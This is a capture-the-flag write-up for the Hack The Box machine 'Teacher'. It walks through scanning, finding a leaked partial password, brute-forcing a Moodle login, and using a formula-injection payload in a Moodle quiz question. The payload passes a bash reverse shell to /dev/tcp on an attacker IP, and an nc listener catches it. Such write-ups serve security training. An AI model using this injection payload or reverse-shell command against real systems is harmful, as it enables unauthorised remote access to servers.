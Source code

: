 # HTB - Teacher
## OS - Linux

Teacher's IP address is 10.10.10.153. Started with an nmap scan.
```
$nmap -sC -sV -oN nmap 10.10.10.153
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 07:59 PDT
Nmap scan report for 10.10.10.153
Host is up (0.088s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.11 seconds
```


Only port 80 is open.
The web interface shows a web page for school. There's an announcement that the web portal was new, that the students can submit their work. Only gallery.html seems to be working.

In the gallery page, the teacher photos are seen. One of the photos is not visible, the rest are not rendered properly. If we view the source of the page, we see that the photo that is not rendered is http://10.10.10.153/images/5.png.

When we curl that image, we see a note.
```
$curl http://10.10.10.153/images/5.png
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni

```

Ran dirbuster but it stopped after a few errors. Gobuster worked fine.

```
$gobuster dir -t 40 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.153
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.153
[+] Threads:        40
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/06 12:05:28 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/moodle (Status: 301)

```
/moodle shows the Teachers page, and lists Algebra course with teacher Giovanni Chhatta.

Giovanni's link - http://10.10.10.153/moodle/user/view.php?id=3&course=1
Algebra course link - http://10.10.10.153/moodle/course/view.php?id=2

We try to login as giovanni using part of the password given above, and then enumerate using intruder to find the full password.

giovanni's password is Th4C00lTheacha#.

Exploring the site as giovanni shows a message to admin:
```
Hey admin.

How am I supposed to create a quiz? I'm kinda in a hurry since I need this for tomorrow.

Kind regards,
Giovanni
```

Took a while to repro this part, but finally, the formula worked for /*{a*/`$_REQUEST[rad]`;//{x}}

and then in the URL:
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7

added the parameter:
&rad=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.4/6000+0>%261'

Got a nc shell.

```
$nc -lvnp 6000
listening on [any] 6000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.153] 48092
bash: cannot set terminal process group (829): Inappropriate ioctl for device
bash: no job control in this shell
www-data@teacher:/var/www/html/moodle/question$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@teacher:/var/www/html/moodle/question$ python -c 'import pty;pty.spawn("/bin/bash")'
<tion$ python -c 'import pty;pty.spawn("/bin/bash")'
```
